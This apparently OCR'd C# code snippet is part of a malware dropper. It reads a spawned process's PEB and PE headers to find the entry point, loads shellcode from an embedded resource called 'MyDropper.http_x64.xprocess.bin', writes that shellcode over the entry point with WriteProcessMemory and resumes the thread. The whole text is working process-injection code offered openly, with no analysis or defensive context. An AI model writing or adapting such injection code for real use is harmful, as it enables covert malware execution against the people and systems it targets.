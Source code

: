 ```csharp
 
            // calculate pointer to image base address
            var lpImageBaseAddress = pbi.PebBaseAddress + 0x10;
 
            // buffer to hold data, 64-bit addresses are 8 bytes
            var bImageBaseAddress = new byte[8];
 
            // read data from spawned process
            ReadProcessMemory(
                pi.hProcess,
                lpImageBaseAddress,
                bImageBaseAddress,
                8,
                out _);
 
            // convert address bytes to pointer
            var baseAddress = (IntPtr)BitConverter.ToInt64(bImageBaseAddress, 0);
 
            // read pe headers
            var data = new byte[512];
 
            ReadProcessMemory(
                pi.hProcess,
                baseAddress,
                data,
                512,
                out _);
 
            // read e_lfanew
            var e_lfanew = BitConverter.ToInt32(data, 0x3C);
 
            // calculate rva
            var rvaOffset = e_lfanew + 0x28;
            var rva = BitConverter.ToUInt32(data, rvaOffset);
 
            // calculate address of entry point
            var lpEntryPoint = (IntPtr)((UInt64)baseAddress + rva);
 
            // read the shellcode
            byte[] shellcode;
 
            var assembly = Assembly.GetExecutingAssembly();
 
            using (var rs = assembly.GetManifestResourceStream("MyDropper.http_x64.xprocess.bin"))
            {
                // convert stream to raw byte[]
                using (var ms = new MemoryStream())
                {
                    rs.CopyTo(ms);
                    shellcode = ms.ToArray();
                }
            }
 
            // copy shellcode into address of entry point
            WriteProcessMemory(
                pi.hProcess,
                lpEntryPoint,
                shellcode,
                shellcode.Length,
                out _);
 
            // resume process
            ResumeThread(pi.hThread);
```